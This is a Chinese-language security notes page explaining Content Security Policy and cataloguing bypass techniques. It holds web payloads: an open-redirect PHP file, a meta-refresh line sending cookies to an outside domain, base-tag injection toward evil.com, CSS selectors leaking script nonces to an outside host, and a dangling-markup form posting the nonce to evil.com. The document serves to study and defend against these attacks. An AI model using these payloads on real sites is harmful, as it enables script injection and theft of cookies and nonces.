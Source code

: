 date: 2020-05-20
categories:
- web
title: bypass_csp
---
# bypass csp

内容安全策略  ([CSP](https://developer.mozilla.org/zh-CN/docs/Glossary/CSP)) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。 

## csp语法

CSP的特点就是他是在浏览器层面做的防护，是和同源策略同一级别，除非浏览器本身出现漏洞，否则不可能从机制上绕过。

CSP只允许被认可的JS块、JS文件、CSS等解析，只允许向指定的域发起请求。

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy

[`default-src`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) :在其他资源类型没有符合自己的策略时应用该策略(有关完整列表查看[`default-src`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) )

![image773](https://images.seebug.org/content/images/2017/10/7b7e1d4c-9d9a-4bd0-ae6d-f266871fa300.png-w331s)

![image878](https://images.seebug.org/content/images/2017/10/c5a45eca-7e0c-4ebf-8143-712e4594f2fd.png-w331s)



###  strict-dynamic

` script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none';  `

script-src 中 strict-dynamic 中的作用:

- 丢弃白名单
- 允许执行js生成的js代码，例如：document.createElement('script') 
- 使  nonce-only CSPs  可以工作

![image1216](https://raw.githubusercontent.com/Explorersss/photo/master/20200520164256.png)



### 一些注意点

`https://cdn.com/*`只能匹配`https://cdn.com/*`



## bypass

### csp策略不完全导致的绕过





### 利用302跳转

` Content-Security-Policy: default-src 'self '; script-src http://127.0.0.1/static/`

如果可信域内存在一个可控的重定向文件，那么CSP的目录限制就可以被绕过。 

假设static目录下存在一个302文件

```
Static/302.php

<?php Header("location: ".$_GET['url'])?>
```

像刚才一样，上传一个test.jpg 然后通过302.php跳转到upload目录加载js就可以成功执行

```
<script src="static/302.php?url=upload/test.jpg">
```



### 绕过域限制的一些tricks

`Content-Security-Policy: default-src 'self'; script-src 'self'`

```html
<link rel="prefetch" href="http://lorexxar.cn"> (H5预加载)(only chrome)
<link rel="dns-prefetch" href="http://lorexxar.cn"> （DNS预加载）
<meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
```



### 利用可信域的资源绕过

很多网站都会将google,baidu......添加到可信域里面，而如果里面存在可控的输出我们便可以绕过csp

常用可控jsonp: https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/jsonp.js#L32-L180 



### bypass nonce

#### 利用`<base>`标签

Specify a default URL and a default target for all links on a page:

```html
<head>
  <base href="https://www.evil.com/" target="_blank">
</head>

<body>
<img src="images/stickman.gif" width="24" height="39" alt="Stickman"><!-- load  https://www.evil.com/images/stickman.gif -->
<a href="tags/tag_base.asp">HTML base Tag</a>
</body><!-- point to https://www.evil.com/tags/tag_base.asp -->
```

因此我们可以设置个`<base>`标签，将相对路径导向恶意的网站

```html
<!-- XSS -->
<base href="https://evil.com/">
<!-- End XSS -->
…
<script src="foo/bar.js" nonce="r4nd0m"></script>
```



https://evil.com/foo/bar.js

```
alert(0000);
```

成功执行



防御方式：

在csp中添加：base-uri 'none' 或 base-uri 'self'

#### 利用chrome bug 来修改script src的值

```html
<!-- XSS -->
<svg><set href="victim" attributeName="href" to="data:,alert(1)" />
<!-- End XSS -->
…
<script id="victim" src="foo.js" nonce="r4nd0m"></script>
```

SVG中的set标签可以修改其他标签的属性值

该漏洞在chrome58中修复

#### steal nonce

#####  via CSS selectors



```html
<!-- XSS -->
<style>
script { display: block }
script[nonce^="a"]:after { content: url("record?a") }
script[nonce^="b"]:after { content: url("record?b") }
</style>
<!-- End XSS -->
<script src="foo/bar.js" nonce="r4nd0m"></script>
```

可以联合其他标签来发出请求，如`<a>` ...

```html
<style>script[nonce^="0"]~a{background:url("http://y5pwcd.ceye.io/success")}</style>
```

相关的css 语法

 https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_Selectors 

 https://developer.mozilla.org/zh-CN/docs/Web/CSS/Attribute_selectors 





#####  via dangling markup attack

破坏原有的结构，将script标签变成文本，诱使用户点击

```html
<!-- XSS --> <form method="post" action="//evil.com/form">
<input type="submit" value="click"><textarea name="nonce">
<!-- End XSS -->
<script src="foo/bar.js" nonce="r4nd0m"></script>
```



###  JS framework-based CSP Bypasses

利用低版本JQuery等js框架漏洞来绕过csp



## 绕过实例





## 一些工具

检查csp: https://csp-evaluator.withgoogle.com/ 

常用可控jsonp: https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/jsonp.js#L32-L180 

[csp mitigator](https://chrome.google.com/webstore/detail/csp-mitigator/gijlobangojajlbodabkpjpheeeokhfa) :一个csp调试工具





## 参考文章

 [Spagnuolo_Hack In Bo - So we broke all CSPs... You won't guess what happened next!](https://www.hackinbo.it/slides/1494231338_Spagnuolo_Hack In Bo - So we broke all CSPs... You won't guess what happened next!.pdf) 

[前端防御从入门到弃坑--CSP变迁](https://paper.seebug.org/423/)







## 收藏





Bypassing CSP script nonces via the browser cache： http://sebastian-lekies.de/csp/attacker.php

 https://hurricane618.me/2018/06/30/csp-bypass-summary/ 



 https://www.netsparker.com/blog/web-security/private-data-stolen-exploiting-css-injection/ 

 https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense 

 https://storage.googleapis.com/pub-tools-public-publication-data/pdf/45542.pdf 